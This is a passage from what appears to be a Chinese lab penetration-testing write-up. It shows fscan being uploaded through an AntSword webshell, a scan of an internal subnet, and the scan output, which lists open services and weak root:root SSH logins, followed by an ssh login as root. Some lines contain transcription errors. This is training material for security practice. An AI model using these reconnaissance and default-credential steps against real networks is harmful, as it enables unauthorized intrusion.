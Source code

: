 ```bash
模拟公网ip：192.168.28.1
内网ip：192.168.25.100
```



### 上传fscan

#### 解决蚁剑上传fscan报错

> 出错:请求超时,请将超时时间调大

![image-20241124091724276](https://image.201068.xyz/assets/writeup/image-20241124091724276.png)

```bash
chmod +x fscan
./fscan -h 192.168.0.0/16 > fscan.txt
```

#### fscan结果

```bash
(icmp) Target 192.168.28.10   is alive
(icmp) Target 192.168.28.100  is alive
(icmp) Target 192.168.28.101  is alive
(icmp) Target 192.168.28.200  is alive
(icmp) Target 192.168.28.201  is alive
(icmp) Target 192.168.28.250  is alive

192.168.28.10:80 open
192.168.28.200:80 open
192.168.28.10:443 open
192.168.28.200:443 open
192.168.28.201:443 open
192.168.28.100:445 open
192.168.28.250:22 open

WebTitle:http://192.168.26.100 code:200 len:10065 title:通达OA网络智能办公系统
Webritle:http://192.168.25.102 code:200 len:36999 title:某医院网站-Powered by S-CMS
Webritle:http://192.168.25.100 code:200 len:43455 title:None               
Webritle:http://192,168.25.50:8010/center/Index/login code:200 len:2221 title:ewomail.com-邮箱管理后台
WebTitle:https://192.168.25.50:8020 code:200 len:15364 title:phpMyAdmin
WebTitle:https://192.168.25.50:7000 code:200 len:3165 title:None

[+] SSH 192.168.28.101:22:root root
[+] SSH 192.168.25.50:22:root root
```

> 192.168.26.100 通达OA

```bash
ssh root@192.168.28.250
```

